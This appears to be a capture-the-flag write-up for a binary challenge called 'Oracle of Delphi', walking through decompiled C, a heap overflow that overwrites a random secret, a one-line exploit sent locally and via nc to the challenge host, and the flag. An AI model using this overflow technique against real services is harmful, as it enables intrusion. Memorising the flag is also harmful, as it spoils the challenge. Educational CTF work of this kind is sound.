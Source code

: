 # Getting the challenge

The zip file contains a Dockerfile with some files that describes the service. One of the extra files is a binary that is running with a flag.txt placeholder. This is enough to test everything locally. If your environment differs significantly from the docker image, you can extract the libc from it and use it locally.

Upon running the binary, it asks 2 questions.

![](screenshots/1.png)

# Checking the logic

Ghidra can recover the code ([delphi.c](workdir/delphi.c)) relatively well. 

```c
void FUN_00101341(void *param_1)
{
  size_t __n;
  long in_FS_OFFSET;
  char local_518 [1288];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  fgets(local_518,0x500,stdin);
  __n = strlen(local_518);
  memcpy(param_1,local_518,__n);
  // REDACTED
  return;
}

undefined8 FUN_001013bf(void)
{
  // REDACTED
  local_68 = (char *)malloc(0x10);
  local_60 = (char *)malloc(0x20);
  memset(local_60,0,0x20);
  getrandom(local_60,0x20,0);
  for (local_7c = 0; local_7c < 0x20; local_7c = local_7c + 1) {
    if ((local_60[local_7c] == '\0') || (local_60[local_7c] == '\n')) {
      local_60[local_7c] = '*';
    }
  }
  puts("Welcome to the Oracle of Delphi!");
  puts("Hic es forsit ut tuum futurum invenias.\n");
  puts(
      "I will think of something bright and shiny. If you manage to think of the same thing, I will predict your future."
      );
  puts("If not, shall the gods have mercy on your soul.\n");
  printf("What shall I think of (ie What\'s my favorite instrument)? ");
  FUN_00101341(local_68);
  printf("So you asked: ");
  puts(local_68);
  puts("Okay, now that\'s a good one. Let me think...");
  sleep(2);
  printf("Got it. Any clue what it is I had in mind? ");
  fgets(local_48,0x21,stdin);
  iVar1 = strncmp(local_48,local_60,0x20);
  if (iVar1 == 0) {
    puts("Woah... You got it. Interested in a job offer? We have some good java coffee.");
    local_78 = (char *)0x0;
    local_70 = 0;
    tVar2 = time((time_t *)0x0);
    srand((uint)tVar2);
    local_58 = fopen("flag.txt","r");
    if (local_58 == (FILE *)0x0) {
      puts("Error: flag.txt not found. Contact an admin.");
                    // WARNING: Subroutine does not return
      exit(1);
    }
    while (local_50 = getline(&local_78,&local_70,local_58), local_50 != -1) {
      printf("%s",local_78);
    }
    fclose(local_58);
    if (local_78 != (char *)0x0) {
      free(local_78);
    }
  }
  else {
    puts("Nope, that\'s not it. You\'re doomed.");
  }
  // REDACTED
}

```

FUN_00101341 is used to read some input to a large enough buffer, then it copies strlen(buffer) amount into it's parameter deestination. 

FUN_001013bf is presumably the main function, it is allocating 2 buffers (size 0x10 and 0x20) with malloc and randomizing the latter with some filtering. The former is passed to the FUN_00101341 read function to hould our input. A third smaller local buffer is used to read some bytes in the second question, and this value is compared to the random one. Upon successfully guessing the random number, the flag is given out.

# The problem

The reader function is ignoring the destination buffer size and overflow can occur. This can overwrite the random part. 

Pwntools can be used to generate some cyclic strings to easily spot memory patterns.

![](screenshots/2.png)

The program can be stopped on [malloc](https://cplusplus.com/reference/cstdlib/malloc/) and [strncmp](https://cplusplus.com/reference/cstring/strncmp/) to check the memory layout. 

![](screenshots/5.png)

The strncmp parameters will be passed in `$rdi` (guess), `$rsi` (random), `$rdx` (length).

During a normal run, at `$rsi-32` the input string for the first question can be seen, and at `$rsi`, the randomly generated variable.

![](screenshots/3.png)

During a run with overflow, the random is overwritten with the given input.

![](screenshots/4.png)

# Exploit

The allocated heap structure is deterministic, always allocating the same size in the same order.

The first question can overwrite the random with known value and the second question can use the known value. There is no free at all, so corrupting the heap structure is not a problem.

```bash
python -c 'print("A"*32+"X"*31+"\n"+"X"*31+"\n")' | ./delphi
python -c 'print("A"*32+"X"*31+"\n"+"X"*31+"\n")' | nc 10.10.8.10 55364
```

![](screenshots/8.png)

# Flag

cq23{l3t_mE_t3ll_UR_FUtuRe:ur_g0nna_be_4_gr3at_h4ck3r}

# Pwndbg

Pwndbg can be used for better experience.

For example more verbose and easier to read outputs.

![](screenshots/6.png)

Heap information.

![](screenshots/7.png)